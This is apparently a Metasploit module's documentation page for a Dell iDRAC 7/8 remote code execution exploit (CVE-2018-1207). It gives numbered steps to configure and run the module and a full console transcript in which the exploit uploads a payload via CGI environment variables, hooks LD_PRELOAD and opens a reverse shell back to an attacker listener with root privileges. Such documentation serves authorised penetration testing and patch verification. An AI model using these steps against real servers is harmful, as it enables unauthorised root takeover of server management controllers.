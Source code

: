 ## Description  

Dell IDRAC servers prior to firmware version 2.52.52.52 are vulnerable to an unauthenticated remote code execution vulnerability, CVE-2018-1207. This exploit makes use of CGI environment variables to upload a reverse shell and hook LD_PRELOAD to obtain a connection. This process has the potential to fork bomb the system, so this module safely unsets the LD_PRELOAD variable on connection to the reverse shell. The servers run on the SH4 architecture, which requires cross-compiling with the gcc-8-sh4-linux-gnu package. Only a reverse shell is supported at this time.

## Vulnerable Application  

Dell IDRAC 7/8


## Vulnerable Application Installation Setup.

Generation 12 and 13 Dell PowerEdge servers are vulnerable. 

https://en.wikipedia.org/wiki/List_of_Dell_PowerEdge_Servers

## Verification Steps  

  1. Identify an IDRAC 7 or 8 appliance
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/dell_idrac_upload_exec```
  4. Do: ``set rhost <ip>``
  5. Do: ``set rport <80/443>``
  6. Do: ``check``

``[*] 192.168.0.10 The target is vulnerable.``

  7. Do: ``set lhost <ip>``
  8. Do: ``set lport <port>``
  9. Do: ``exploit``
  10. You should get a shell.

## Scenarios  

TESTED AGAINST LINUX

```
msf5 > use exploit/linux/http/dell_idrac_upload_exec
msf5 exploit(linux/http/dell_idrac_upload_exec) > options 

Module options (exploit/linux/http/dell_idrac_upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   TIMEOUT  15               no        Override default timeout for reqeusts
   VHOST                     no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/http/dell_idrac_upload_exec) > set rhost 192.168.0.10
rhost => 192.168.0.10
msf5 exploit(linux/http/dell_idrac_upload_exec) > check
[*] Sending request to http://192.168.0.10/cgi-bin/login?LD_DEBUG=files
[*] Valid response received...
[+] 192.168.0.10:80 The target is vulnerable.
msf5 exploit(linux/http/dell_idrac_upload_exec) > set lhost 192.168.0.5
lhost => 192.168.0.5
msf5 exploit(linux/http/dell_idrac_upload_exec) > exploit 
[*] Started reverse TCP handler on 192.168.0.5:4444
[*] Sending request to http://192.168.0.10/cgi-bin/login?LD_DEBUG=files
[*] Valid response received...
[*] Sending request for http://192.168.0.10/cgi-bin/putfile
[*] 192.168.0.10 - Exploit Upload Success
[*] Command shell session 1 opened (192.168.0.5:4444 -> 192.168.0.10:45038) at 2020-02-26 12:51:27 -0600

id
uid=0(root) gid=0(root)
```
